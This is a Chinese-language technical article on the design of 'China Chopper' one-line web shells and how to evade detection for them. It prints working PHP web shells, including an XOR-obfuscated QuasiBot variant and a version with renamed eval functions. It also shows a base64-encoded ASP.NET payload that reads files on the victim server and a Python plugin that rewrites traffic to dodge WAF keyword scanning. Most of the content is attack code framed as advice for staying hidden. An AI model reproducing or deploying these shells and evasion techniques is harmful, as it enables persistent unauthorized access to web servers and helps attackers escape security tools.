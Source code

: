 # 经典菜刀一句话小马及其变形的设计思路

经典的菜刀一句话类似于：
```PHP
@eval($_POST['pass'])
```

这里的eval便是我们要执行的动作。而真正要执行的代码以字符串形式存在的$_POST['pass']。

这类小马总是接受来自客户端的发来的Request，然后对其中特定的邪恶字符串动态求值，并将执行结果以特定的格式Response回客户端。一句话小马的核心特征总是可以归结为这样的形式：

```PHP
$act（$evilStr）
```

其中，$act可能代表eval、system，或如带e标志的preg_replace之类可执行字符串的动作，$evilStr代表一段以字符串形式存在的邪恶代码。

## 动作

在服务端的木马中直接写eval之类的敏感词很可能会导致被查杀。有两种基本思路可以绕过这个问题：

* 在服务端的小马里对动作名进行混淆
* 从客户端向小马传递动作名，从而避免在服务端的小马里看到eval之类的代码

### 混淆动作名

混淆动作名的方法很多，如字符串拼接、base64编码等等。关键是隐藏自己。

### 从客户端传递动作名：

木马类似于：

```PHP
$act=$_GET['act'];
$evilStr=$_POST['evilStr'];
$act($evilStr);
```

则客户端POST恶意数据到victim.php?act=eval即可完成。

### 结合两者：

比如QuasiBot的服务端木马：

```PHP
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/"); # 结果为$_="GET"
    ${'_'.$_}["_"](${'_'.$_}["__"]);    #结果为$_GET['_']($_GET['__'])
    print "{:|".md5("666".date("h:d"))."{:|".PHP_OS."{:|-->";
}else{
    //...
}
```

很显然，这段代码实际上是利用异或^运算符做了代码混淆，本质上还是通过客户端传递动作名来达到隐蔽自己的效果。



## 邪恶代码的字符串

这部分便是我们实际要运行的代码。由于WAF的缘故，经常需要对之进行编码加密，常用的便是利用base64_decode()。
解密工作可以放到服务端的小马中完成，也可以放在邪恶字符串中——每当邪恶字符串被求值的时候，就会触发自解密。
比如菜刀的某一段邪恶功能字符串经过整理后可能类似于：
```ASP.NET
//ee=
Response.Write("->|");
var err:Exception;
try{
    eval(
        System.Text.Encoding.GetEncoding(65001).GetString(
            System.Convert.FromBase64String("dmFyIFA9U3lzdGVtLlRleHQuRW5jb2RpbmcuR2V0RW5jb2RpbmcoNjUwMDEpLkdldFN0cmluZyhTeXN0ZW0uQ29udmVydC5Gcm9tQmFzZTY0U3RyaW5nKFJlcXVlc3QuSXRlbVsiejEiXSkpO3ZhciBtPW5ldyBTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyKFAsRW5jb2RpbmcuRGVmYXVsdCk7UmVzcG9uc2UuV3JpdGUobS5SZWFkVG9FbmQoKSk7bS5DbG9zZSgpOw%3D%3D")
        ),
        "unsafe"
    );
}catch(err){
    Response.Write("ERROR:// "%2Berr.message);
}
Response.Write("|<-");
Response.End();
```
配合着发送的还有这样一个QueryString

```ASP.NET
z1=QzpcXERvY3VtZW50cyBhbmQgU2V0dGluZ3NcXEFkbWluaXN0cmF0b3JcXOahjOmdolxcMjIyLmNzdg%3D%3D
```

其中：

* ee代表的邪恶字符串经过urldecode、base64_decode之后，得到明文是:

```ASP.NET
var P=System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["z1"]));var m=new System.IO.StreamReader(P,Encoding.Default);Response.Write(m.ReadToEnd());m.Close();
```

* z1实际上是一段经过base64编码的字符串，用作ee代表的那段邪恶代码的变量。


当然，这样直接把eval和base_decode这类敏感词写到邪恶字符串中，还是很容易被查杀，所以一个习科有个Python插件版的菜刀，支持把eval、base_decode()之类的敏感词替换为其他非敏感字符串，然后再在服务端的小马中予以还原。

Python的插件脚本为：
```Python
def makepostdata(headers,postdata):
    open('headers.txt','wb').write(headers)
    open('postdata.txt','wb').write(postdata)
    headers = headers.replace('X-Forwarded-For','asdasd')
    postdata = postdata.replace('eval','xxxx')
    postdata = postdata.replace('base64_decode','yyyy')
    return headers,postdata
```

这个插件作者给出的服务端的小马类似于：
```PHP
<?php
    function xxxx($str){return eval($str);}
    function yyyy($str){return base64_decode($str);}
    xxxx($_POST['pass']);
?>
```

当然，这种服务端小马对敏感词未做混淆，可以配合异或符进一步隐蔽。
